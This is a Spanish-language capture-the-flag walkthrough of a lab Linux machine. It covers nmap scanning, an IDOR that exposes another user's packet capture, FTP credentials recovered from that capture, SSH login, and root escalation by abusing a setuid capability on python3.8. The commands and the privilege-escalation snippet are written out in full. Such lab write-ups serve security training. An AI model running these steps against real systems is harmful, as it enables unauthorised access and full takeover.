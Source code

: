 ### Enumeración:

En primer lugar lanzamos un ping a la máquina para comprobar que se encuentra activa:
$ ping -c1 10.129.153.150
Vemos que enviamos un paquete y nos devuelve un paquete, por lo que esta activa. Además vemos un valor de ttl 63, al ser cercano a 64 nos indica que estamos frente a una máquina Linux. 
A continuación vamos a enumerar puertos abiertos del protocolo TCP:
$ nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.129.153.150
Encontramos lo puertos (21, 22 y 80) abiertos.
Realizamos un escaneo con los scripts más comunes de Nmap y conjuntamente otro escaneo para detectar servicios y versiones que corren en dichos puertos:
$ nmap -sCV -p21,22,80 10.129.153.150
Vamos a fuzear en busca de subdominios dentro del servicio HTTP:
$ nmap --script http-enum -p80 10.129.153.150
### Explotación:

Dentro de la Web vemos que en Security Snapshot podemos acceder a los datos de otros usuarios a través de un IDOR (Insecure Direct Object Reference), si nos dirigimos a data=0 podemos descargar una captura .pcap, realizada por un usuario.
Nos abrimos la captura en WireShark:
$ wireshark -r 0.pcap &>/dev/null & disown
Dentro de wireshark vamos filtrando por puertos, en el puerto 21 vemos una petición de logeo con el usuario nathan y la contraseña Buck3tH4TF0RM3!.
Nos conectamos a través de ftp:
$ ftp nathan@10.129.153.150
Buck3tH4TF0RM3!
Tenemos acceso al protocolo ftp (21):
ftp>dir
ftp>get user.txt
$ cat user.txt
Podemos probar las mismas credenciales para acceder por ssh:
$ ssh nathan@10.129.153.150
Buck3tH4TF0RM3!
Estamos dentro de la máquina como usuario no privilegiado, buscamos formas de escalar privilegios:
Vemos la versión del kernel:
$ uname -a
Vemos los valores uid y gid:
$ id
Vemos privilegios de sudoers:
$ sudo -l
Vemos binarios de los que podamos abusar:
$ find / -perm 4000 -user root 2>/dev/null | xargs ls -l
Vemos las capabilities:
$ getcap -r / 2>/dev/null
Vemos que python3.8 tiene asignada la capability de cambiar el SUID, por lo que esto nos puede permitir escalar privilegios:
$ python3.8
import os
os.setuid(0)
os.system("/bin/bash")
Ya somos usuario privilegiado, por último buscamos la flag de root:
find / -name root.txt | xargs cat